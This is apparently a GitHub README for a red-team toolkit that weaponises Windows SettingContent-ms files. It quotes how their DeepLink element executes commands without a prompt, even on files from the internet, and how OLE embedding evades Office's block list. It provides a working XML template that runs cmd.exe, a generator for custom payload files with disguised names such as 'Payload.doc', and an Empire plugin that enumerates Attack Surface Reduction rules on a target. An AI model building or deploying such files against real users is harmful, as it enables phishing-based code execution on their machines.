 # SettingContent-ms Tools

A small group of scripts to help with creation of SettingContent-ms files for code execution. Includes an XML template for a SettingContent-ms file that executes calc.exe.

## Background
Because there's no sense reinventing the wheel, I'm just going to quote [enigma0x3](http://test.com/test) on this topic:

```Text
This format was introduced in Windows 10 and allows a user to create “shortcuts” to various Windows 10 setting pages. These files are simply XML and contain paths to various Windows 10 settings binaries.

...

All this file does is open the Control Panel for the user. The interesting aspect of this file is the <DeepLink> element in the schema. This element takes any binary with parameters and executes it.

...

What is interesting is that when double-clicking the file, there is no “open” prompt. Windows goes straight to executing the command.

...

When this file comes straight from the internet, it executes as soon as the user clicks “open”. Looking at the streams of the file, you will notice that it does indeed grab Mark-Of-The-Web. When looking up the ZoneIds online, “3” equals “URLZONE_INTERNET”. For one reason or another, the file still executes without any notification or warning to the user.

...

Office 2016 blocks a preset list of “known bad” file types when embedded with Object Linking and Embedding. The SettingContent-ms file format, however, is not included in that list. At this point, we can evade the Office 2016 OLE file extension block by embedding a malicious .SettingContent-ms file via OLE. When a document comes from the internet with a .SettingContent-ms file embedded in it, the only thing the user sees is the “Open Package Contents” prompt. Clicking “Open” will result in execution. If an environment doesn’t have any Attack Surface Reduction rules enabled, this is all an attacker needs to execute code on the endpoint.
```

This is about the gist of what you need to take advantage of this file format. For more information, I encourage you to consult [enigma0x3's blog post regarding SettingContent-ms](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39).

## Contents

### Find-ASRRuleDescription.ps1
Find the definition of a given Attack Surface Reduction rule.

```PowerShell
Find-ASRRuleDescription -GUID "{D3E037E1-3EB8-44C8-A917-57927947596D}"
```

```PowerShell
Get-MpPreference | Select AttackSurfaceReductionRules_IDs | Find-ASRRuleDescription
```

### Get-ASRRules.py
Empire PowerShell plugin that gets the _definitions_ of the Attack Surface Reduction rules that are enabled on the target host. Requires Get-MpPreference cmdlet which is only present on Windows 10 (Powershell 5).

### New-SettingContentMSFile.ps1
Create a new SettingContent-ms file with a custom command payload.

```PowerShell
New-SettingContentMSFile -Command '%windir%\system32\cmd.exe /c calc.exe' -FileName 'Payload.doc.SettingContent-ms'
```

```PowerShell
New-SettingContentMSFile -Command '%windir%\system32\cmd.exe /c calc.exe'
```

### Template.SettingContent-ms
A SettingContent-ms file template that launches calc.exe upon execution. To launch custom payload, change the contents of the <DeepLink> tags to your payload.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<PCSettings>
    <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">
        <ApplicationInformation>
            <AppID>windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel</AppID>
            <DeepLink>%windir%\system32\cmd.exe /c calc.exe</DeepLink>
            <Icon>%windir%\system32\control.exe</Icon>
        </ApplicationInformation>
        <SettingIdentity>
            <PageID></PageID>
            <HostID>{12B1697E-D3A0-4DBC-B568-CCF64A3F934D}</HostID>
        </SettingIdentity>
        <SettingInformation>
            <Description>@shell32.dll,-4161</Description>
            <Keywords>@shell32.dll,-4161</Keywords>
        </SettingInformation>
    </SearchableContent>
</PCSettings>
```

## Related Links & References
- [https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39)
- [https://twitter.com/enigma0x3/status/1006516077176721408](https://twitter.com/enigma0x3/status/1006516077176721408)
- [https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-exploit-guard/attack-surface-reduction-exploit-guard](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-exploit-guard/attack-surface-reduction-exploit-guard)
- [https://github.com/danielbohannon/Invoke-DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)
